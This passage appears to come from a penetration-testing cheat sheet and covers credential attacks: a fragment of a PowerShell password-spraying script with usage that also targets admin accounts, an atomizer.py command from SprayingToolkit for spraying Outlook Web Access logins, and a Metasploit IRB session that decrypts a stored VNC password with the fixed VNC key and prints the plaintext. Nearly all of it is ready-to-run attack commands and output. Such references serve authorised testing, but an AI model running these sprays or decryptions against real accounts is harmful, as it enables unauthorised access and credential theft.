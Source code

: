 ```powershell
$passwords = $null

If ($Url -ne '')
{
    $passwords = Parse-Url $Url
}
ElseIf($File -ne '')
{
    $passwords = Parse-File $File
}
Else
{
    $passwords = $Pass.Split(",").Trim()   
}

If($passwords -eq $null)
{
    Write-Host "Error in password input, please try again."
    Exit
}

# Get password policy info
$duration = Get-Duration
$threshold = Get-threshold

If ($Admins) {Write-Host "WARNING: also targeting admin accounts." -BackgroundColor DarkRed}

# Call the main function and start the brute force
BruteForce $duration $threshold $passwords
```

### Usage

```cmd
PS C:\> .\Spray-Passwords.ps1 -Pass <PASSWORD> -Admin
```

## SprayingToolkit

> https://github.com/byt3bl33d3r/SprayingToolkit

### OWA

```console
$ python3 atomizer.py owa <RHOST> <PASSWORDS> <USERNAMES> -i 0:0:01
```

## VNC Password Recovery

```console
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
=> "sT333ve2"
>>
```
